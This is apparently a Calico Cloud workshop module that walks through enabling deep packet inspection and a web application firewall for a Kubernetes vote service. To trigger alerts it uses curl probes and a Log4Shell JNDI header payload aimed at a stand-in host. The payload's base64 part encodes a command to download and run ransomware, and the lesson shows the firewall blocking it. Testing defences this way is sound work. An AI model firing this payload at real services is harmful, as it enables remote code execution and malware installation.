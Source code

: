 # Module 5 - Configuring IDS protection and Workload-Centric WAF

Security teams need to run DPI quickly in response to unusual network traffic in clusters so they can identify potential threats. Also, it is critical to run DPI on select workloads (not all) to efficiently use cluster resources and minimize the impact of false positives. Calico Cloud provides an easy way to perform DPI using Snort community rules. You can disable DPI at any time, selectively configure for namespaces and endpoints, and alerts are generated in the `Alerts` dashboard in Manager UI.

For this workshop, we will enable the IDS for the vote service and observe the alerts being created when trying to exploit some vulnerabilities.

1. First enable the `Intrusion Detection`

   ```yaml
   kubectl apply -f - <<-EOF
   apiVersion: operator.tigera.io/v1
   kind: IntrusionDetection
   metadata:
     name: tigera-secure
   spec:
     componentResources:
     - componentName: DeepPacketInspection
       resourceRequirements:
         limits:
           cpu: "1"
           memory: 1Gi
         requests:
           cpu: 100m
           memory: 100Mi
   EOF
   ```

2. Next, create a `DeepPacketInspection` for the vote application in the vote namespace.

   ```yaml
   kubectl apply -f - <<-EOF
   apiVersion: projectcalico.org/v3
   kind: DeepPacketInspection
   metadata:
     name: dpi-ids-vote
     namespace: vote
   spec:
     selector: app == "vote"
   EOF
   ```

3. Test the IDS emulating an attack to the vote service:

   - Find the IP address of the vote application and export it to the `VOTE_EXTERNAL` environment variable

     ```bash
     export VOTE_EXTERNAL=$(kubectl get svc -n vote vote-external -o=jsonpath='{.status.loadBalancer.ingress[*].hostname}')
     ```

   - From your shell, execute the following commands.

     ```bash
     curl -m2 http://$VOTE_EXTERNAL/cmd.exe
     curl -m2 http://$VOTE_EXTERNAL/NessusTest
     ```

   - Observe the results in the Service Graph to see the generated alerts that will warn you about the exploitation attempt.

---

A web application firewall (WAF) safeguards web applications against a range of application layer attacks, including cross-site scripting (XSS), SQL injection, and cookie poisoning. Given that application attacks are the primary cause of breaches, protecting the HTTP traffic that serves as a gateway to valuable application data is crucial.

Calico Cloud WAF allows you to selectively run service traffic within your cluster and protect intra-cluster traffic from common HTTP-layer attacks. To increase protection, you can use Calico Cloud network policies to enforce security controls on selected pods on the host.

1. Deploy the WAF by running the following command:

   ```bash
   kubectl apply -f waf
   ```

2. Open a new Cloud Shell session and start a pod to simulate an attack on the vote service.

   ```bash
   kubectl run attacker --image nicolaka/netshoot -it --rm -- /bin/bash
   ```
3. Before protecting the service with the WAF, try the following command from the attacker shell. This request will simulate a LOG4J attack.

   ```bash
   curl -v -H \
     'X-Api-Version: ${jndi:ldap://jndi-exploit.attack:1389/Basic/Command/Base64/d2dldCBldmlsZG9lci54eXovcmFuc29td2FyZTtjaG1vZCAreCAvcmFuc29td2FyZTsuL3JhbnNvbXdhcmU=}' \
     'vote.vote'
   ```

4. Now enable the WAF using the following command from your shell (not from the pod attacker).

   ```
   kubectl patch applicationlayer tigera-secure --type='merge' -p '{"spec":{"webApplicationFirewall":"Enabled"}}'
   ```

5. Go back to the attack pod, and repeat the request.

   ```bash
   curl -v -H \
     'X-Api-Version: ${jndi:ldap://jndi-exploit.attack:1389/Basic/Command/Base64/d2dldCBldmlsZG9lci54eXovcmFuc29td2FyZTtjaG1vZCAreCAvcmFuc29td2FyZTsuL3JhbnNvbXdhcmU=}' \
     'vote.vote'
   ```
   
   You will note that the result will be an HTTP 403 - Forbidden. This reponse returns from the WAF.

--- 

[:arrow_right: Module 6 - Quarantine Infected Workloads and KSPM](/mod/module-6-quarantine-kspm.md)  <br>

[:arrow_left: Module 4 - Security Guardrails for Network-based Threats](/mod/module-4-security-guardrails.md)  
[:leftwards_arrow_with_hook: Back to Main](/README.md)  
